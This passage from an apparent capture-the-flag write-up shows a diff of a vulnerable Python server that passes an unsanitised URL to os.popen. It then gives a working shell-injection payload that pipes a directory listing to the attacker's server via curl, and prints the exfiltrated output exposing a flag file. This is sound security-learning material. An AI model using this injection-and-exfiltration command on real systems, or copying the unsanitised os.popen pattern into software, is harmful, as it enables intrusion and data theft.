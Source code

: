 ```diff
27c27
<     if len(code) > 3 and any(c in code for c in "0123456789+*-/"):
---
>     if len(code) > 3:
37c37
<     out_tmpl = os.popen(f"curl.exe -s {url}").read()
---
>     out_tmpl = subprocess.run(['curl.exe', '-s', url], stdout=subprocess.PIPE, stderr=subprocess.STDOUT).stdout.decode()
```

As a result, we focused on step 6, which, since the `url` string is not sanitised at all, allows for [shell injection](https://en.wikipedia.org/wiki/Code_injection#Shell_injection). After some time wasted on trying to make this work using additional arguments provided to `curl` (such as `-F` to upload a file over HTTP to a server we controls), I realised just piping into other commands works just fine in `os.popen`, even on Windows.

With that in mind, we could list the directory as so:

```sh
curl "https://(the remote)/ti-84?code=1&tmpl=normal.tmpl+|+dir+|+curl+http://(our server):1337+-F+%22x=@-%22+"
```

This pipes the output of `dir` (directory listing) as POST data to our server. It should be possible to construct similar commands which create a valid "template" (that passes step 7 above) while still containing the output of a directory listing or the flag, but we already had the server ready. With the command above, our server received a request like so:

```
POST / HTTP/1.1
Host: (our server):1337
User-Agent: curl/8.14.1
Accept: */*
Content-Length: 722
Content-Type: multipart/form-data; boundary=------------------------P4dBWlPaa89vvIacc41anm

--------------------------P4dBWlPaa89vvIacc41anm
Content-Disposition: form-data; name="x"; filename="-"

 Volume in drive C has no label.
 Volume Serial Number is 2C73-C453

 Directory of C:\app

06/14/2025  04:41 AM    <DIR>          .
06/14/2025  04:29 AM               208 code_tmpl.py
06/04/2025  05:42 AM         3,730,024 curl.exe
06/14/2025  04:29 AM              (33) flag_4dfa54cf005d9fea.txt
06/12/2025  06:47 AM                23 requirements.txt
06/14/2025  04:29 AM             1,927 server.py
06/14/2025  04:41 AM    <DIR>          static
               5 File(s)      3,732,215 bytes
               2 Dir(s)  136,137,388,032 bytes free

--------------------------P4dBWlPaa89vvIacc41anm--
```
